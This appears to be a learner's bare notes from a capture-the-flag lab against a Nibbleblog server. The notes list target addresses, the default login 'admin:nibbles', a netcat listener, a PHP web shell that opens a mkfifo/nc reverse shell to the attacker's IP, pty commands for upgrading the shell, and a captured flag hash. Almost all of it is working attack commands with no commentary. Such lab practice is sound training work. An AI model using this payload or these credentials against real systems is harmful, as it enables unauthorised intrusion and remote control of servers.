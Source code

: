 #  Gain a foothold on the target and submit the user.txt flag

10.129.200.170

admin:nibbles

nc 10.10.16.5 1234

curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1234 >/tmp/f"); ?>

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

79c03865431abf47b90ef24b9695e148

http://10.129.200.170/nibbleblog/admin.php